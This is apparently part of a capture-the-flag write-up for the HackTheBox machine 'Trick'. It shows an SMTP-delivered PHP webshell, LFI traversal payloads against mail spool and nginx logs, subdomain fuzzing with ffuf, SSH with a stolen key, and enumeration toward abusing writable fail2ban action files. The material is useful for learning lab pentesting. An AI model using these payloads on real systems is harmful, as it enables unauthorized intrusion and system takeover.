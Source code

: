 ```
rcpt to:michael
data
subject: NOVEMBER50
Redeem kode voucher untuk diskon 50% all course Cyberkarta.

<?php system($_GET['cmd']); ?>
.
```
- Be careful, if you do a mistake when entering PHP webshell, this method is no longer available.
- It configured email locally, so it doesn't use the normal email format such as `michael@trick.htb`
- To send email using netcat, you have to include sign `.` at the end of the data.

LFI to spool mail
```
....//....//....//....//var/spool/mail/michael&cmd=id
....//....//....//....//var/log/nginx/access.log&cmd=<reverse shell>
```

## Speed Up Finding Using ffuf
Fuzzing 
```
ffuf -u http://10.10.11.166 -w <seclist subdomains 5000> -H 'Host: preprod-FUZZ.trick.htb'

# filter size 5480
ffuf -u http://10.10.11.166 -w <seclist subdomains 5000> -H 'Host: preprod-FUZZ.trick.htb' -fs 5480
```

# SSH To Get User Flag
```
ssh -i michael.key michael@10.10.11.166
```

# Privilege Escalation
```
sudo -l

# Finding file that can be used by user michael
find / -user michael 2>/dev/null | less

# non match less
/!
\/proc
\/home

find / -group security 2>/dev/null | less
find / -group security -ls 2>/dev/null | less
```
Notes:
- From `sudo -l`, apparently we have access to fail2ban
- User michael is a member of `security` group
- We can get `/etc/fail2ban/action.d` directory by searching `security` group
- We have read and write permission in the `action.d`, it means we can tamper these files!
